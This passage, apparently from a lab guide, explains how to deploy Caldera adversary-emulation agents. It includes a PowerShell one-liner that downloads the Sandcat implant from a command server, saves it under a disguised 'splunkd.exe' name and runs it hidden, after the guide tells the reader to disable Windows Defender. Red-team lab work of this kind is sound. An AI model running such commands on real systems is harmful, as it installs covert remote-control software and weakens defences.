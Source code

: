 ![image.png](image%2012.png)

After running the commands on the Linux client, confirm that the agent is visible and its status is 'Alive' in the Caldera web UI.

![image.png](image%2013.png)

### **Deploying Windows Agent**

Click 'Deploy an Agent'. For Agent, select 'Sandcat'. For Platform, select 'Windows'. **On Windows client, disable Windows Defender.** Copy and paste the commands into the PowerShell terminal of the Windows client.

For example:

```powershell
$server="http://10.0.0.100:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```
